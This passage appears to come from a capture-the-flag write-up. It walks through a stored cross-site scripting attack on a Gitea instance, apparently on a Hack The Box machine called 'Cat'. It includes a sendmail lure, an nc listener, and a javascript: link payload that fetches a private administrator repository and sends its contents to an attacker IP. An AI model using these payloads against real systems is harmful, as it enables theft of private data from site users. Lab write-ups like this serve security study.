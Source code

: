Since sending it to `administrator@cat.htb` results in an error, we send it to an existing local user.

```
echo "http://localhost:3000/axel/xss" | sendmail jobert@cat.htb
```

After waiting a moment, we receive the request containing the `/administrator` page content.

We decode the response:

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

This reveals the `Administrator` user's repositories. The only repository listed is `Employee-management`.

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body hx-headers='{"x-csrf-token": "3al9Kr21OmCbGJiIh3zBYEsUqMc6MTc0MjQzMTQ4NDc4MTIxODQ2Ng"}' hx-swap="outerHTML" hx-ext="morph" hx-push-url="false">
    ...
    <a class="text primary name" href="/administrator/Employee-management">Employee-management</a>
    <span class="label-list">
        <span class="ui basic label">Private</span>
    </span>
    ...
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
    ...
</body>
</html>
```

Now, let's list the files inside the `Employee-management` repository.

We set up a listener again:

```
nc -lnvp 80
```

Then, we modify the repository description to include the `/administrator/Employee-management` path:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```
